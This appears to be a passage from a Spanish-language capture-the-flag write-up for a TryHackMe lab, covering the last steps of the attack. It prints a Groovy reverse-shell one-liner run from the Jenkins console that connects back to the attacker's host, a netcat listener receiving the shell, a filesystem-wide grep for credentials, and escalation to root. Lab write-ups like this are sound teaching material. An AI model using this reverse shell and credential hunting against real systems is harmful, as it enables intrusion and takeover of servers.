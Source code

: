 ```bash
 String host="10.2.11.100";int port=444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![consola](consola.png)

Una vez generado el script en Groovy, nos ponemos a la escucha en el puerto especificado (`4444`) y lo ejecutamos para obtener acceso al Docker de la máquina víctima.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.81.141] 32796
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
```

Después, nuevamente realizamos una búsqueda recursiva de archivos confidenciales que contengan la palabra `credentials` desde el directorio raíz, utilizando el siguiente comando:

```bash
grep -r -i credentials / 2>/dev/null
/opt/note.txt:Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
```

Durante la búsqueda, identificamos un archivo sospechoso en `/opt/note.txt`. Por lo tanto, procedemos a inspeccionar su contenido.

```bash
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.
```

El contenido del archivo nos revela las credenciales del usuario `root`. 

```bash
aubreanna@internal:~$ su root
Password: 
root@internal:/home/aubreanna# id      
uid=0(root) gid=0(root) groups=0(root)
```

Finalmente, accedemos al directorio personal del usuario root y leemos la flag correspondiente a dicho usuario.

```bash
root@internal:~# cat root.txt 
THM{d0ck3r_d3str0y3r}
```

¡Happy Hacking!
